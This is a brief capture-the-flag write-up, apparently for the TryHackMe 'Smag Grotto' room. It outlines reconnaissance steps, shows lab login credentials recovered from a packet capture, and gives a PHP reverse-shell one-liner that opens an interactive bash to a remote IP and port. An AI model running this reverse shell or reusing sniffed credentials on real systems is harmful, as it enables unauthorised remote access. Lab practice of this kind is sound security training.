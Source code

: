#   Tryhackme - Smag Grotto
##  IP=10.10.188.153

##  Steps:
1.  Nmap
2.  Gobuster
3.  Wireshark
4.  See some Docs

##  Notes
```
Wireshark -->

POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk & password=cH4nG3M3_n0w HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8


PHP reverse shell: 

php -r '$sock=fsockopen("10.17.28.202",4444);exec("/bin/bash -i <&3 >&3 2>&3");'

```

##  Room Done!